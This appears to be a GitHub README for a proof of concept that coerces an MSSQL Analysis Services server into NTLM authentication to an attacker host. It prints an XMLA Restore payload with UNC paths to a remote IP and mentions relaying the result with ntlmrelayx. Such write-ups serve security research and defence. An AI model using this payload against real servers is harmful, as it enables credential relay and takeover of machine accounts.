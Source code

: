 # MSSQL Analysis Services - Coerced Authentication

A technique to coerce a Windows SQL Server to authenticate on an arbitrary machine.

This proof of concept is co-authored by <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a> and <a href="https://twitter.com/intent/follow?screen_name=_Worty" title="Follow"><img src="https://img.shields.io/twitter/follow/_Worty?label=Worty&style=social"></a>.

## Introduction



## Proof of concept

In order to trigger the authentification as the local machine account, we need to connect to the remote SQL Server using user credentials:

![](./.github/sql_analysis_connect.png)

Then we will select "Restore" to restore the database from a given file.

![](./.github/restore_db.png)

Then

![](./.github/accessed_xml_script.png)

Then

![](./.github/unc_path_in_xml_file.png)

Proof of concept ([poc.xmla](./poc.xmla)):

```xml
<Restore xmlns="http://schemas.microsoft.com/analysisservices/2003/engine">
    <File>\\192.168.2.51\SYSVOL\db.abf</File>
    <DatabaseName>\\192.168.2.51\SYSVOL\db.abf</DatabaseName>
    <DbStorageLocation xmlns="http://schemas.microsoft.com/analysisservices/2008/engine/100/100">\\192.168.2.51\SYSVOL\db.abf</DbStorageLocation>
</Restore>
```

And we get an authentication from the local machine account of the SQL Server:

![](./.github/responder_auth.png)

## Relaying for the win

![](./.github/responder_auth.png)

Once we got the authentification, we can relay it with `ntlmrelayx` to perform many actions on behalf of the computer `SQL01$`.

This is cool, but it is complicated to trigger this coerced authentication from a Linux attacking machine as we do not have access to the SQL Server Management Studio (SSMS). 

## References
 - https://docs.microsoft.com/en-us/sql/database-engine/install-windows/install-sql-server?view=sql-server-ver15
 - https://social.technet.microsoft.com/wiki/contents/articles/13106.sql-server-frequently-used-ports.aspx
 - https://docs.microsoft.com/en-us/answers/questions/274512/connecting-to-azure-analysis-services-using-python.html
